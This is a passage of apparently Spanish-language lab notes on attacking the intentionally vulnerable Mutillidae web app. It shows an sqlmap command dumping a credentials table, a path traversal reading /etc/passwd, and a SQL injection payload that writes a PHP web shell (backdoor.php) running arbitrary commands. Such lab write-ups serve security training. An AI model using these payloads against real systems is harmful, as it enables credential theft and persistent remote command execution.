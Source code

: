 ![[Pasted image 20240926001838.png]]

Como podemos ver hemos descubierto una tabla llamada accounts, por su nombre deducimos que es donde se guardan las credenciales de los usuarios, si queremos obtener el contendido de esta podemos hacerlo con el comando:

```bash
sqlmap -r $HOME/request.burp.txt --ignore-redirects -batch --dump -T accounts -D mutillidae
```

Con el parametro ` -T ` definimos la tabla a utilizar dentro de la base de datos seleccionada.

# 7. Path Traversal 
Esta vulnerabilidad consiste en inyección de codigo en el contexto de una ruta a el sistema de ficheros.
Esto se realiza mediante la manipulacion de parametros en la url del sitio, por ejemplo, en nuestro mutillidae podemos ver que al entrar en cualquier seccion de la pagina la url nos marca lo siguiente: 

` https://192.168.56.6/mutillidae/src/index.php?page=user-info.php ` 

El path traversal en este caso podria ejecutarse mediante la manipulacion del parametro *page* intentando apuntar a un archivo local de la maquina host, mediante esto podemos vizualizar ficheros como el /etc/passwd de la siguiente forma:

![[Pasted image 20240926003311.png]]

![[Pasted image 20240926003324.png]]

Es como navegar por terminal, con los puntos y barra indicamos que queremos cambiar a la ruta anterior y asi hasta que llegue al fichero /  en el cual podemos apuntar hacia este directorio.

> El fichero /etc/passwd es donde se guardan todos los usuarios que hay dentro de una maquina linux.


# 8. Web Shells
Esta no es una vulnerabilidad como tal si no que es un script que nosotros vamos a injectar en la maquina host para ganar persistencia, ejecucion remota de comandos, etc. En pocas palabras este es un payload como tal.
Lo que haremos esta vez sera escribir una sentencia que nos permita escribir y subir una webshell hacia el directorio al que le dimos permiso de leer, en este caso mutillidae, esto lo haremos aprovechando sql injection y path traversal, y es la siguiente sentencia:

```sql
' union select null,null,null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/src/backdoor.php' -- 
```
